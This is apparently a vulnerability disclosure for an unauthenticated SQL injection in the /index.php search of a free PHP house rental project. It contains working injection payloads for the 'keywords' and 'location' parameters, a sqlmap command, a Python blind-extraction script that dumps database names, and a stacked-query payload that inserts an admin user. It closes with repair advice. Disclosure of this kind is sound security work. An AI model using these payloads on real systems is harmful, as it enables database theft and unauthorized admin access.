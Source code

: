 # PROJECTSWORLDS House rental And Property Listing Project PHP , Mysql V1.0 /index.php SQL injection
# NAME OF AFFECTED PRODUCT(S)
+ House rental And Property Listing Project PHP , Mysql

## Vendor Homepage
+ [homepage](https://projectworlds.in/free-projects/php-projects/house-rental-and-property-listing-project-php-mysql/)

# AFFECTED AND/OR FIXED VERSION(S)
## submitter
+ takakie

## Vulnerable File
+ /index.php

## VERSION(S)
+ V1.0

# Software Link
+ [Download Source Code](https://projectworlds.in/wp-content/uploads/2019/06/home-rental.zip)

# PROBLEM TYPE
## Vulnerability Type
+ SQL injection

## Root Cause
+ A SQL injection vulnerability was found in the '/index.php' file of the 'House rental And Property Listing Project' project. The reason for this issue is that attackers inject malicious code from the parameters 'keywords','location' and use it directly in SQL queries without the need for appropriate cleaning or validation. This allows attackers to forge input values, thereby manipulating SQL queries and performing unauthorized operations.

## Impact
+ Attackers can exploit this SQL injection vulnerability to achieve unauthorized database access, sensitive data leakage, data tampering, comprehensive system control, and even service interruption, posing a serious threat to system security and business continuity.

## DESCRIPTION
+ During the security review of "House rental And Property Listing Project", takakie discovered a critical SQL injection vulnerability in the "/index.php" file. This vulnerability stems from insufficient user input validation of the 'keywords' parameter and 'location', allowing attackers to inject malicious SQL queries. Therefore, attackers can gain unauthorized access to databases, modify or delete data, and access sensitive information. Immediate remedial measures are needed to ensure system security and protect data integrity.

# No login or authorization is required to exploit this vulnerability  details and POC

## Vulnerability type:

+ boolean-based blind
+ time-based blind
+ stacked queries

## Vulnerability location:
+ 'keywords' parameter and 'location' parameter

## Payload:
```bash
---
Parameter: #1* ((custom) POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: keywords=') AND 3038=3038 AND ('BCbi'='BCbi&location=&search=search

    Type: stacked queries
    Title: MySQL >= 5.0.12 stacked queries (comment)
    Payload: keywords=');SELECT SLEEP(5)#&location=&search=search

    Type: time-based blind
    Title: MySQL >= 5.0.12 OR time-based blind (SLEEP - comment)
    Payload: keywords=') OR SLEEP(5)#&location=&search=search
---

---
Parameter: #1* ((custom) POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: keywords=&location=india') AND 2543=2543 AND ('vOQw'='vOQw&search=search

    Type: stacked queries
    Title: MySQL >= 5.0.12 stacked queries (comment)
    Payload: keywords=&location=india');SELECT SLEEP(5)#&search=search

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (SLEEP)
    Payload: keywords=&location=india') AND SLEEP(5) AND ('qSUX'='qSUX&search=search
---
```

## The following are screenshots of some specific information obtained from testing and running with the sqlmap tool:
```bash
sqlmap -r newrent_sql.txt --dbms=mysql --dbs --batch 
```

![image-20250313101447955](https://hongkong-img.oss-cn-hongkong.aliyuncs.com/markdown-img/image-20250313101447955.png?x-oss-process=style/img-to-webp)

![image-20250313193520322](https://hongkong-img.oss-cn-hongkong.aliyuncs.com/markdown-img/image-20250313193520322.png?x-oss-process=style/img-to-webp)

- "Due to the system using $keyword = explode(',', $keywords); for parameter processing, commas (,) cannot be utilized. Therefore, I developed the following Proof of Concept (PoC):" 
- boolean-based blind

```python
import requests

if __name__ == '__main__':
    # your target url
    url = "http://192.168.100.147/index.php"
    database_info = ""
    country = "india" # The country parameter value must exist in the system. You can send an empty parameter query to get it.
    length = 0
    # query all tables in the database
    sql1 = "SELECT group_concat(table_name) FROM information_schema.TABLES WHERE table_schema = DATABASE()"
    # query all database
    sql2 = "select group_concat(schema_name) from information_schema.schemata"

    for i in range(1, 999):
        for c in range(32, 127):
            payload = f"{country}') AND ASCII(SUBSTR(({sql2} LIMIT 1 OFFSET 0) FROM {i} FOR 1))={c} -- "
            keywords = payload
            location = "" # if you want to attack 'location' parameter you can set 'location = payload'
            data = {
                "keywords": keywords,
                "location": location,
                "search": "search"
            }
            r = requests.post(url, data)
            if len(r.text) > 6000:
                if c == 44:
                    print("Database_info:", database_info)
                    database_info = ""
                else:
                    database_info += chr(c)
                break

        if len(database_info) == length:
            break
        length = len(database_info)
    print("Database_info:", database_info)


```

![image-20250313103633628](https://hongkong-img.oss-cn-hongkong.aliyuncs.com/markdown-img/image-20250313103633628.png?x-oss-process=style/img-to-webp)

![image-20250313103747890](https://hongkong-img.oss-cn-hongkong.aliyuncs.com/markdown-img/image-20250313103747890.png?x-oss-process=style/img-to-webp)

- stacked queries; insert a user of admin role
- Poc

```sql
keywords=india');INSERT INTO users SELECT * FROM (SELECT 3)a CROSS JOIN (SELECT 'systest')b CROSS JOIN (SELECT '15661561521')c CROSS JOIN (SELECT 'test')d CROSS JOIN (SELECT 'user1@gmail.com')e CROSS JOIN (SELECT md5('123456'))f CROSS JOIN (SELECT NOW())g CROSS JOIN (SELECT NOW())h CROSS JOIN (SELECT 'admin')j CROSS JOIN (SELECT 1)k; #
&location=
&search=search
```

![image-20250313111731407](https://hongkong-img.oss-cn-hongkong.aliyuncs.com/markdown-img/image-20250313111731407.png?x-oss-process=style/img-to-webp)

![image-20250313112300781](./image-20250313112300781.png)

![image-20250313112051653](https://hongkong-img.oss-cn-hongkong.aliyuncs.com/markdown-img/image-20250313112051653.png?x-oss-process=style/img-to-webp)

# Suggested repair
1. Use prepared statements and parameter binding:  
Preparing statements can prevent SQL injection as they separate SQL code from user input data. When using prepare statements, the value entered by the user is treated as pure data and will not be interpreted as SQL code.
2. Input validation and filtering:  
Strictly validate and filter user input data to ensure it conforms to the expected format.
3. Minimize database user permissions:  
Ensure that the account used to connect to the database has the minimum necessary permissions. Avoid using accounts with advanced permissions (such as' root 'or' admin ') for daily operations.
4. Regular security audits:  
Regularly conduct code and system security audits to promptly identify and fix potential security vulnerabilities.

